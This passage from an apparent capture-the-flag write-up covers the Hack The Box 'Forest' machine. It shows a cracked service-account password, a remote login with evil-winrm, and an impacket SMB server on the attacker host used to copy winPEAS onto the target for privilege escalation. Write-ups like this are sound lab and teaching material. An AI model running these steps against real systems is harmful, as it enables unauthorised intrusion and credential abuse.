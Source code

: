 `s3rvice` is `svc-alfresco`'s password.

### Shell over WinRM

Port 5985 is open so maybe we can login remotely over **WinRM** with these credentials.

```bash
$ evil-winrm -i $TARGET -u svc-alfresco -p s3rvice
```

![Desktop View](/assets/img/htb/machines/windows/easy/forest/shell.png)

___

## Privilege escalation

### Local enumeration with `winPEAS`

In order to transfer [`winPEAS.exe`](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) we can host an SMB server on our machine using **impacket** again:

```bash
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
```

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> copy \\10.10.14.12\kali\winPEASx64.exe .
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> dir


    Directory: C:\Users\svc-alfresco\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/23/2019   2:16 PM             32 user.txt
-a----        8/17/2021   3:36 PM        1920000 winPEASx64.exe
```
